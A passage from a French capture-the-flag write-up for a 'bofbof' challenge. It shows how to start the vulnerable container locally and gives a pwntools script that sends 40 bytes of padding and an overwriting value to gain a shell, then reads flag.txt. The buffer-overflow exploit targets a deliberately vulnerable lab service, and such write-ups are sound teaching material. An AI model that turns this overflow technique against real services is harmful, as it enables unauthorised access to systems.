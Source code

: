 Il suffit maintenant d'effectuer ceci sur le conteneur docker et pour cela, nous allons utiliser un script python.

> Dans le cas d'un CTF le conteneur tourne sur un serveur du CTF, ici on peut le lancer localement avec `docker compose up --detach` (dans le dossier où se trouve le `docker-compose.yml`).  
> Pour arrêter le conteneur: `docker compose down` :wink:

## Le script

Voici `bofbof.py`

```python
from pwn import *

target = remote("localhost", 4000)      ## connection au docker
print(target.recv())
padding = b"A"*40                       ## construction de la réponse
payload = p64(0x1122334455667788)
print(padding+payload)
target.sendline(padding+payload)        ## envoi de la réponse
target.interactive()                    ## laisse le terminal du docker ouvert 
``` 

Lançons `bofbof.py` et regardons ce que cela donne : 

![](bofbof-write-up-4.png)

On a donc réussi à accéder à un terminal et `cat flag.txt` permet d'accéder à `flag.txt`.

